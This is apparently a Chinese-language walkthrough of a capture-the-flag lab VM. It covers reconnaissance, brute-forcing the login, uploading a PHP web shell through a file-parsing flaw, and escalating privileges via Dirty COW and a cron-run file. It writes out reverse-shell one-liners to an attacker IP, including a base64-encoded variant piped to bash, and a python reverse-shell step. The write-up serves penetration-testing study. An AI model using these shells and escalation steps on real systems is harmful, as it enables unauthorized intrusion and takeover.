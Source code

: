 #信息收集
##nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-13 18:46 GMT
Nmap scan report for 192.168.1.17
Host is up (0.00045s latency).                                                           
Not shown: 989 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited) 
PORT   STATE SERVICE VERSION                                                             
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)                      
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                    
| http-methods:                                                                                        
|_  Potentially risky methods: TRACE                                                                   
| http-robots.txt: 3 disallowed entries                                                                
|_/cola /sisi /beer                                                                                    
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|media device|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (97%), Drobo embedded (89%), Sy5.X (89%), LG embedded (88%), Tandberg embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linobo:5n cpe:/a:synology:diskstation_manager:5.2
Aggressive OS guesses: Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 3.13 (97%),2.6.32 - 3.5 (92%), Linux 3.2 (91%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.1.17

OS and Service detection performed. Please report any incorrect results at h
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds```

````

##目录扫描
```
/images               (Status: 301) [Size: 235] [--> http://192.168.1.17/images/]
/beer                 (Status: 301) [Size: 233] [--> http://192.168.1.17/beer/]
/cola                 (Status: 301) [Size: 233] [--> http://192.168.1.17/cola/]
```
##过程
常规信息收集后······
访问robots.txt，发现三页面都没啥信息

查看80端口网页，获得一堆类似用户的字符串
![45da65f99e9a8f92d57cc1607f580790.png](../../_resources/45da65f99e9a8f92d57cc1607f580790.png)

根据网页信息，浏览其目录
![e08a34396823074396cb83e1360fb65b.png](../../_resources/e08a34396823074396cb83e1360fb65b.png)

最后在http://192.168.1.17/fristi/找到登录口，尝试弱口令和注入，无结果



扫目录
gobuster dir -u "http://192.168.1.17/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt #没什么发现

继续回到登录口
查找源代码，下面注释有个base64的加密方法，看上去像是图片数据，尝试读取
![d5b6518b1cbf77b2ce72b15ed7de8d5d.png](../../_resources/d5b6518b1cbf77b2ce72b15ed7de8d5d.png)

``data:img/png;base64,`` 这个头后面加上base64的加密数据，像下面图片
![f88647a1c690a748f37fd6eadddf69df.png](../../_resources/f88647a1c690a748f37fd6eadddf69df.png)
访问后下载了一个图片，像是一串密码，可以把之前获得到的类似用户名的字符串爆破这个密码 
![08e4d3ffa32776a34ca9955f7f90a40f.png](../../_resources/08e4d3ffa32776a34ca9955f7f90a40f.png)
``KeKkeKKeKKeKkEkkEk``

把之前获得的id保存下来，用正则把它们@去掉，前面不留空格
```
#这里是根据实际文件去处理的，参考命令符就行
cat user.txt | tr ',' '\n' > id.txt  #tr删除 ，删除 逗号 “，” 和换行符 \n 

cat id.txt | grep @ | awk -F '@' '{print $2}' >id #提权@ 以@为分隔符删除第二部分

cat id >> id.txt #追加

cat id.txt | tr ' ,' '\n' >id #去掉前面的空格，这不用记住，记住命令符就行，按着自己想要的来
```

截取后台登录包，放到burp里爆破，就选集束炸弹就行。结果出来了
![c17dd81cc2b3d11035e24c3e8755b155.png](../../_resources/c17dd81cc2b3d11035e24c3e8755b155.png)
登录成功！

后台就只有一个上传功能
![9e764c11c8b0517731a821d13b0b49ca.png](../../_resources/9e764c11c8b0517731a821d13b0b49ca.png)
上传文件该shell，很幸运网站告诉我们上传位置了，去该路径访问我们的文件
http://192.168.1.17/fristi/uploads/shell.php.gif
![ff9962788e9b39c80ce54ba9f7bdaf99.png](../../_resources/ff9962788e9b39c80ce54ba9f7bdaf99.png)
直接当php执行了，应该碰巧有解析漏洞。不然的话确认能上传后，还要试试其他的解析漏洞

get请求弹shell要注意：url中&会被当做命令的分隔符，如果shell含有&就会出错，得编码或者一句话支持post请求，以post发送过去就行

我们这用的get请求shell，所以先编码
/bin/bash -i >& /dev/tcp/10.10.14.30/1234 0>&1
语句放到文件里转成base64编码
![7195371a69eb7b807b1b262b6470d6bb.png](../../_resources/7195371a69eb7b807b1b262b6470d6bb.png)

最后在服务器里先测试能不能连上
nc -lvnp 1234
**弹shell**
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xMDAvMTIzNCAwPiYxCg== | base64 -d | bash
![690ea097217ac76648b8f213247036b2.png](../../_resources/690ea097217ac76648b8f213247036b2.png)
可以就拿去用
![17fcc86eed381b8cc3246a50fb475969.png](../../_resources/17fcc86eed381b8cc3246a50fb475969.png)

**最后一步提权**
常规流程走一趟，没有就内核提权
gcc -o RationalLove RationalLove.c
不行，
上传内核漏洞推荐器
![3b53328d70d1e566af3aa310ce04334c.png](../../_resources/3b53328d70d1e566af3aa310ce04334c.png)
推荐脏牛，地址都给了，
根据 教程执行即可

提权最好先稳定化shell先


##另一种提权方法
信息收集
id
```
当前用户apache
```
pwd
当前绝对路径：/var/www/html/fristi/uploads
uname -r
内核版本：2.6.32-573.8.1.el6.x86_64
cat /etc/passwd
```
三个可登录用户
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
```

cd /root 
被拒绝

cd /home
都进去看看
![93d1145bb880b46e9953b7c7aedace62.png](../../_resources/93d1145bb880b46e9953b7c7aedace62.png)
cd eezeepz
ls -al
cat ./notes.txt
``
我记得,我使您能够执行一些自动检查，但是我只允许您访问/usr/bin/*系统二进制文件。但是，我确实将一些经常需要的命令复制到我的home目录:chmod、df、cat、echo、ps、grep、egrep，以便您可以从/home/admin/使用这些命令不要忘记为每个二进制文件指定完整路径!只需在/tmp/中放入一个名为“runthis”的文件，每行一个命令。输出到/tmp/目录下的"cronresult"文件。它应该以我的帐户权限每分钟运行一次。Start a new browse杰里
``

根据上面信息得知，我能使用/usr/bin*里的系统二进制文件，但管理员将一些常用命令复制到他的/home目录：chmod、df、cat、echo、ps、grep、egrep。

这些命令二进制文件都放在/home/admin/里了

/tmp 下有个runthis ，计划任务会将他每分钟运行一次（root权限），其文件中每条命令都输入到/tmp/cronresult


ls- al/usr/bin
有python的二进制文件，我们可以通过python来写个反弹shell。注意我们现在在/bin，要用/bin的shell

cd /tmp
python -c 'import pty;pty.spawn("/bin/bash")'
shell正常化

tmp下创建一个反弹shell脚本
![cf51fd91e68219ff187e5ac80629a968.png](../../_resources/cf51fd91e68219ff187e5ac80629a968.png)

echo "/usr/bin/python /tmp/shell.py" > runthis
用/usr/bin/python来运行他，并重定向到 runthis
* /usr/bin/python 是我们能使用的二进制文件
* runthis文件是计划文件以root权限每分钟执行一次的文件
* 运行的shell是python的反弹shell脚本

等待计划任务的执行
攻击机：nc -lvnp 4444   连接成功
![c1ab53e55fb99d004d87f958390a02de.png](../../_resources/c1ab53e55fb99d004d87f958390a02de.png)

#再次提权
上面，我们从apache用户提权到admin，但在linux里root权限才是最大的

查看admin家目录
ls -al
![b046df20b0c65ef8336e3d5eedc26bf9.png](../../_resources/b046df20b0c65ef8336e3d5eedc26bf9.png)
查看一个叫做计划任务的py脚本
![7cbedaec7fe8b98d744f7bb32b3acfa2.png](../../_resources/7cbedaec7fe8b98d744f7bb32b3acfa2.png)
其他文件，一个类似加密密码，一个类似于加解密程序，加密程序先将值编码base64，再编码为rot13
![34d3dd9e020dc0e99c16147c2f42736f.png](../../_resources/34d3dd9e020dc0e99c16147c2f42736f.png)
 cat whoisyourgodnow.txt
也是密码

把那个可能是加密程序的代码复制出来，尝试逆向，如不会逆向，那就看加密程序，然后看看怎么解密= = ，解密出来的是密码能登录其他用户

，然后在其他用户目录下，继续找能提权到root的用户